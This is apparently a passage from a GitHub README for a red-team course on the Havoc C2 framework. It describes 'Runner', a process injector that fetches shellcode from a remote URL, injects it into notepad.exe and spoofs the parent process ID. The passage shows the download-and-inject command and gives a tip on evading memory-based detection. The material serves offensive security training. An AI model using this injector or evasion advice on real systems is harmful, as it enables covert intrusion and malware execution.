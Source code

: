 ```
    }
}
```

### C2 Infrastructure Design
![](./assets/c2_infrastructure.png)

#### [[Redirector]](https://github.com/WesleyWong420/RedTeamOps-Havoc-101/blob/main/assets/Redirector.MD) [[Stager]](https://github.com/WesleyWong420/RedTeamOps-Havoc-101/blob/main/assets/Stager.MD)

## Chapter 2: OPSEC & Evasion
### Runner
Runner is the 1st out of 5 Proof-of-Concept Process Injectors that takes an arbitrary shellcode from a remote URL and perform shellcode injection on a sacrificial process `notepad.exe` using Win32 API calls. It also supports Parent Process ID (PPID) Spoofing, allowing the sacrificial process to spawn under an arbitrary process using it's PID. If the target `-t, --target` is not specified, it will perform self-injection instead.

**OPSEC Tips:** Allocating RWX region is a major outlier for detection as programs will rarely have memory region of RWX. Always allocate RW then flip it to RX.
```
C:\>Runner.exe -u http://192.168.231.128:9090/demon.bin -t notepad -p 4160 -k

                 /\
                ( ;`~v/~~~ ;._
             ,/'"/^) ' < o\  '".~'\\\--,
           ,/",/W  u '`. ~  >,._..,   )'
          ,/'  w  ,U^v  ;//^)/')/^\;~)'
       ,/"'/   W` ^v  W |;         )/'
     ;''  |  v' v`" W }  \\
    "    .'\    v  `v/^W,) '\)\.)\/)
             `\   ,/,)'   ''')/^"-;'
                  \
                ".
               \    Runner
               
Process Injector 1: Runner (Win32 API)

  -u, --url      Required. Remote URL address for raw shellcode.

  -t, --target   Specify the target/victim process. Default: Self-injection
```